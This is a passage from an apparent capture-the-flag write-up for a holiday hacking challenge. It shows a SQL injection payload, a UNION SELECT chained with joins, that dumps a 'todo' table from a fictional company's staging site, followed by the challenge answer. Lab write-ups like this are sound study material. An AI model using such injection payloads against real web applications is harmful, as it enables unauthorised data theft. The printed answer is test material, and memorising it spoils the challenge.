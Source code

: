 Now we know there are three columns in the todo table, 'id', 'note', and 'completed', so we can compose our final query to retrieve all the rows of this table.  Note that in this query we are using fewer join statements since the select from the todo table will return three columns.
```
https://staging.jackfrosttower.com/detail/1 UNION SELECT * FROM (select NULL)c1 join (select * from todo)c2 join (select NULL)c5 join (select NULL)c6 join (select NULL)c7;--,1
```
??? info "Screenshot"
    ![](image3.png)


## Completion

!!! success "Answer"
    clerk

??? quote "Ingreta Tude"
    Oh wow - I thought we left SQL injection in the last decade.<br>
    Thanks for your help finding this!


## Extras

For Jack's complete TODO list, see <a href="../../extras/O12_Frost_Tower_Website_Checkup">this table</a> in the Extras section.
